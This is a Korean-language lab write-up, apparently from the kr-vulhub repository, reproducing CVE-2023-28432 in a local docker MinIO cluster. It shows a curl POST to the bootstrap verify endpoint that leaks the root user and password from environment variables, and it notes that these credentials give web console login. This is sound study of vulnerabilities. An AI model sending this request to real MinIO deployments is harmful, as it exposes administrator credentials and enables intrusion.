




# CVE-2023-28432 MinIO 취약점 PoC 보고서

## 개요

-**CVE 번호**: CVE-2023-28432
-**대상 서비스**: MinIO
-**취약점 정보**: RELEASE.2023-03-20T20-16-18Z 이전 버전에서는 MinIO가 클러스터 모드로 배포될 경우 정보 유출 취약점이 존재한다. 공격자는 HTTP 요청을 사용해 대상 프로세스의 모든 환경 변수를 획득할 수 있다.

## 레퍼런스
- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>
- <https://github.com/vulhub/vulhub/tree/master/minio/CVE-2023-28432>

## 취약점 재현 과정

### 1. 컨테이너 실행

다음 명령어를 사용해 MinIO 클러스터를 시작한다.

'''docker compose up -d'''

### 2. Web 콘솔 접속

클러스터가 시작되면 http://localhost:9001 으로 브라우저에 접속이 가능하다.

### 3. 취약점 재현

API 엔드포인트에 문제가 있다. 

'''curl -X POST http://localhost:9000/minio/bootstrap/v1/verify'''

curl 명령어를 사용해 /minio/bootstrap/v1/verify 엔드포인트에 POST 요청을 보냈다.

MINIO_ROOT_USER와 MINIO_ROOT_PASSWORD가 노출되어 있는 것을 확인할 수 있다. 

"MINIO_ROOT_USER":"minioadmin"
"MINIO_ROOT_PASSWORD":"minioadmin-vulhub"

이 아이디와 비밀번호로 웹 콘솔에 로그인하는 것이 가능하다.

Pull request 링크
<https://github.com/gunh0/kr-vulhub/pull/247>
